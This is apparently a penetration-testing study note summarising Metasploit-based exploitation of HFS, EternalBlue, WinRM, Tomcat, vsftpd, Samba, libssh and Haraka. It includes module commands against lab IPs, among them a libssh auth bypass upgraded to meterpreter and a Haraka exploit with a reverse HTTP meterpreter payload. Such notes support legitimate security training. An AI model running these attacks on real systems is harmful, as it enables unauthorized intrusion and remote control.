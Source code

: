 ```yaml
--- 

# Windows & Linux Exploitation
--- 
```


## Exploiting A Vulnerable HTTP File Server

Rejetto HFS V2.3 is vulnerable to a remote command execution attack.

## Exploiting Windows MS17-010 SMB Vulnerability

 EternalBlue (MS17-010/CVE-2017-0144) is the name given to a collection of
Windows vulnerabilities and exploits that allow attackers to remotely execute
arbitrary code and gain access to a Windows system and consequently the
network that the target system is a part of.

## Exploiting WinRM (Windows Remote Management Protocol)

+ Windows Remote Management (WinRM) is a Windows remote management protocol that can be used to facilitate remote access with Windows systems.

+ WinRM is typically used in the following ways:
	-  Remotely access and interact with Windows hosts on a local network.
	- Remotely access and execute commands on Windows systems on the internet.
	  - Manage and configure Windows systems remotely.
	  
+ WinRM typically uses TCP port 5985 and 5986 (HTTPS).

+ WinRM implements access control and security for communication between
systems through various forms of authentication.

+ We can utilize the MSF to identify WinRM users and their passwords as well as
execute commands on the target system.

+ We can also utilize a MSF WinRM exploit module to obtain a meterpreter session
on the target system.

> ALL METASPLOIT CODES ARE FOUND IN [[02 - Windows Vulnrabilities]] and [[06 - Linux Vulnerabilities]]


## Exploiting Apache Tomcat

Apache Tomcat, also known as Tomcat server, is a popular, free and open source Java servlet web server.

- It is used to build and host dynamic websites and web applications based on the Java software platform.

- Apache Tomcat utilizes the HTTP protocol to facilitate the underlying communication between the server and clients.

- Apache Tomcat runs on TCP port 8080 by default.


+ The standard Apache HTTP web server is used to host static and dynamic websites or web applications, typically developed in PHP.

+ The Apache Tomcat web server is primarily used to host dynamic websites or web applications developed in Java.

+ Apache Tomcat V8.5.19 is vulnerable to a remote code execution vulnerability that could potentially allow an attacker to upload and execute a JSP payload in order to gain remote access to the target server.

+ We can utilize a prebuilt MSF exploit module to exploit this vulnerability and
consequently gain access to the target server 

``` bash

msf > use exploit/multi/http/tomcat_jsp_upload_bypass

```

## Exploiting FTP

+ FTP (File Transfer Protocol) is a protocol that uses TCP port 21 and is used to
facilitate file sharing between a server and client/clients.

+ It is also frequently used as a means of transferring files to and from the
directory of a web server.

+ vsftpd is an FTP server for Unix-like systems including Linux systems and is
the default FTP server for Ubuntu, CentOS and Fedora.

+ vsftpd V2.3.4 is vulnerable to a command execution vulnerability that is
facilitated by a malicious backdoor that was added to the vsftpd download
archive through a supply chain attack.

``` bash

nmap 192.59.143.3 -sVC -T4 -O -oA nmap

msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
```

## Exploiting Samba

+ SMB (Server Message Block) is a network file sharing protocol that is used to
facilitate the sharing of files and peripherals between computers on a local
network (LAN).

+ SMB uses port 445 (TCP). However, originally, SMB ran on top of NetBIOS using
port 139.

+ Samba is the Linux implementation of SMB, and allows Windows systems to
access Linux shares and devices.

+ Samba V3.5.0 is vulnerable to a remote code execution vulnerability, allowing a
malicious client to upload a shared library to a writable share, and then cause the
server to load and execute it.

``` bash
use exploit/linux/samba/is_known_pipename
```

## Exploiting SSH

SSH (Secure Shell) is a remote administration protocol that offers encryption and is the successor to Telnet.

- It is typically used for remote access to servers and systems. 

- SSH uses TCP port 22 by default, however, like other services, it can be configured to use any other open TCP port.

- libssh is a multiplatform C library implementing the SSHv2 protocol on client and server side.

- libssh V0.6.0-0.8.0 is vulnerable to an authentication bypass vulnerability in the libssh server code that can be exploited to execute commands on the target server. 
```bash

msf > workspace -a ssh
msf > db_nmap 
msf > ip a
msf > db_nmap 192.251.90.3 -sVC -A -T4

msf > search libssh
msf > use auxiliary/scanner/ssh/libssh_auth_bypass
msf > options
msf > set rhosts 192.251.90.3 
msf > set SPAWN_PTY true
msf > run
msf > search shell_to
msf > use post/multi/manage/shell_to_meterpreter
msf > options
msf > set SESSION 1
msf > run
msf > sessions -i 2
```

## Exploiting SMTP

+ SMTP (Simple Mail Transfer Protocol) is a communication protocol that is used
for the transmission of email.

+ SMTP uses TCP port 25 by default. It can also be configured to run on TCP
port 465 and 587.

+ Haraka is an open source high performance SMTP server developed in
Node.js.

+ The Haraka SMTP server comes with a plugin for processing attachments.
Haraka versions prior to V2.8.9 are vulnerable to command injection.

```bash
msf > ip a

msf > db_nmap 192.47.200.3 -sVC -A -T4
msf > search Haraka
msf > use exploit/linux/smtp/haraka
msf > set RHOSTS 192.47.200.3

msf > set SRVPORT 9898
msf > set email_to root@attackdefense.test

msf > set lhost 192.47.200.2

msf > set payload linux/x64/meterpreter_reverse_http
msf > run

```